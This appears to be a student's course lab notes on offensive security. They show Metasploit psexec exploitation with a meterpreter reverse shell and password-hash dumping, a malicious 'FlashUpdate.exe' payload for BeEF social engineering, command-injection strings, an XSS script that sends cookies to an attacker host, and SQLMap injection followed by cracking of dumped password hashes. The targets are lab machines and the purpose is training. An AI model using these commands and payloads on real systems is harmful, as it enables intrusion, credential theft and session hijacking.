





# Lab 4 Public Facing and Drive-By Attacks

## 4.1 Metasploit

```bash
# start Metasploit
msfconsole -q

# searches exploits for psexec
msf6 > search type:exploit psexec

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/windows/local/current_user_psexec  1999-01-01       excellent  No     PsExec via Current User Token
   1  exploit/windows/local/wmi                  1999-01-01       excellent  No     Windows Management Instrumentation (WMI) Remote Command Execution
   2  exploit/windows/smb/ms17_010_psexec        2017-03-14       normal     Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  exploit/windows/smb/psexec                 1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
   4  exploit/windows/smb/webexec                2018-10-24       manual     No     WebExec Authenticated User Code Execution

# select a particular exploit
msf6 > use exploit/windows/smb/psexec

# shows all options/ params for an exploit
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

# Configure exploit settings (default payload is reverse shell); RHOSTS = target
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.0.1
RHOSTS => 10.10.0.1
msf6 exploit(windows/smb/psexec) > set SMBUSER sec504
SMBUSER => sec504
msf6 exploit(windows/smb/psexec) > set SMBPASS sec504
SMBPASS => sec504
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.75.1
LHOST => 10.10.75.1
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.75.1:4444 
[*] 10.10.0.1:445 - Connecting to the server...
[*] 10.10.0.1:445 - Authenticating to 10.10.0.1:445 as user 'sec504'...
[*] 10.10.0.1:445 - Selecting PowerShell target
[*] 10.10.0.1:445 - Executing the payload...
[+] 10.10.0.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.0.1
[*] Meterpreter session 1 opened (10.10.75.1:4444 -> 10.10.0.1:1547) at 2022-07-15 16:13:36 +0000

meterpreter > 

# Put meterpreter in bg
meterpreter > background
[*] Backgrounding session 1...

# Foreground meterpreter
msf6 exploit(windows/smb/psexec) > sessions 1
[*] Starting interaction with 1...

# Execute a command in meterpreter and interact with the output
meterpreter > execute -if systeminfo
Process 1852 created.
Channel 1 created.

Host Name:                 SEC504STUDENT
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00329-10181-97955-AA722
Original Install Date:     4/1/2019, 1:14:35 AM
System Boot Time:          7/14/2022, 5:40:12 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual 
...

# Migrate to processes with access to passwords, then dump passwords
meterpreter > migrate -N lsass.exe
[*] Migrating from 2412 to 676...
[*] Migration completed successfully.

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Sec504:1000:aad3b435b51404eeaad3b435b51404ee:864d8a2947723c4264598997c1d67a83:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9679f78eec859fdedb8c208c8fcf4abf:::
```

May need to run `exploit` more than once if all settings are valid.

Additional relevant Meterpreter commands:

- getpid: identify our process
- help: retrieve other commands
- ps: list running processes
- getuid: retrieve current user info
- hashdump: retrieve passwords

Analyze Metasploit attacks with DeepBlueCLI.
## 4.2 BeEF

BeEF: tool for exploiting browsers and conducting client-side social engineering attacks.

```bash
# Make payload
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp /
lhost=10.10.75.1 lport=4444 -f exe -o /tmp/FlashUpdate.exe
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: /tmp/FlashUpdate.exe

# Setup the reverse shell handler
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.75.1
LHOST => 10.10.75.1
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.75.1:4444
```

Beef control panel:



Social engineering presentation to user:



```bash
# Proof of exploit
meterpreter > sysinfo
Computer        : SEC504STUDENT
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : SEC504
Logged On Users : 2
Meterpreter     : x86/windows
```

## 4.3 System Resource Usage Database Analysis (srum-dump)

Used to identify anomalous network behavior on a Windows machine.

SRUM database: Windows 8/10 tool used by OS to record detailed info about the system resource utilization.

Location of SRUM data: `C:/Windows/System32/sru/SRUDB.dat`

Some of this information is available from Task Manager

Create an Excel doc from the db, sort the `Network` data by `Bytes Sent` and evaluate the `Application` and `Profile` of the top talkers.

## 4.4 Command Injection Attack

Check input fields for command injection potential, such as:



Test additional operators like `&&` and `||` with arguments before and after to get successful executions.

`&&` requires a valid prior command to run the injection on the right side of the shell separator, as is the case with: `127.0.0.1 && ls`

`||` requires the left side to be invalid, as is the case with: `-h || ls` in this example.

## 4.5 XSS Attack

Uses the same vulnerable site as before, just the `Search` page.

We can use the Developer Tools to see the output of searching for an input is not filtered --> vulnerable to XSS attack.

Because the site renders content delivered from a crafted URL, this is a *__reflected XSS__* attack.

If the submission was recorded, this would be a *__stored XSS__* vuln.

```bash
# need a PHP server listening on port 2222 with our payload in the directory
<script>document.location='http://10.10.75.1:2222/?'+document.cookie;</script>

# Successful execution gives us an auth token we can use with curl to see the admin page
Listening on http://0.0.0.0:2222
Document root is /home/sec504/labs/cookiecatcher
Press Ctrl-C to quit.
[Fri Jul 15 19:32:51 2022] 172.30.0.45:44446 [200]: /?authtoken=77ba9cd915c8e359d9733edcfe9c61e5aca92afb
```

## 4.6 SQL Injection (SQLMap)

```bash
sec504@slingshot:~$ sqlmap -u "http://rookaviary.com/email_search.php?search=" --dbs

---
Parameter: search (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: search=-8101' OR 4547=4547#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: search=' AND (SELECT 1142 FROM(SELECT COUNT(*),CONCAT(0x71626b7171,(SELECT (ELT(1142=1142,1))),0x7176707171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- gDQV

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=' AND (SELECT 9695 FROM (SELECT(SLEEP(5)))NkRg)-- oFYJ

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: search=' UNION ALL SELECT CONCAT(0x71626b7171,0x49526e504e565a417a55786a536a4d656b4568786e4f6351486c7a44524e456851677a43496f5349,0x7176707171),NULL#
---
[03:21:12] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.20.1, PHP 7.4.22
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[03:21:12] [INFO] fetching database names
available databases [3]:
[*] information_schema
[*] test
[*] web_app
...
# Found the following with --tables
+----------+
| comments |
| users    |
+----------+

# After using flags to get the tables and columns...
sec504@slingshot:~$ sqlmap -u "http://rookaviary.com/email_search.php?search=" -D web_app -T users --dump

+----+---------------------+-------------+-------------------------------------------+-------------------+
| id | email               | username    | password                                  | full_name         |
+----+---------------------+-------------+-------------------------------------------+-------------------+
| 01 | josh@ras.tgt        | josh        | *86E12C1588C9A8300E519FF9190CF464BDB0F9DD | Joshua Wright     |
| 02 | r00k@ras.tgt        | admin       | *47FA7B070774F637F4D6D6D0B97779EBA27A37CE | Derek Rook        |
| 03 | jleytevidal@ras.tgt | jleytevidal | *38030A5A56F0473F5FBB5F6A51AD6EF94A34603D | James Leyte-Vidal |
| 04 | mdouglas@ras.tgt    | mdouglas    | *38905DA3545297B3E9A96456E4985DAA0C82B84E | Mick Douglas      |
| 05 | ssims@ras.tgt       | ssims       | *CAF46A02F9F591E00A521BA45598E3A5E03058F5 | Steve Sims        |
| 06 | rogrady@ras.tgt     | rogrady     | *DDBF75D02D1D212128C61E35695EDEBA792C3E66 | Ryan O\x1bGrady   |
+----+---------------------+-------------+-------------------------------------------+-------------------+

# Use john to crack the passes recovered from the db.
john /tmp/sqlmapmdAHnx3702/sqlmaphashes-cfmjTN.txt

roceeding with wordlist:/usr/local/share/john/password.lst
Florida1         (jleytevidal)     
Proceeding with incremental:ASCII
corvid           (admin)   

# Also found ssims
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/sqlmapmdAHnx3702/sqlmaphashes-cfmjTN.txt

RockYou          (ssims)   
```



Sample SQLMap results:



## 4.7 Cloud SSRF and IMDS Attack

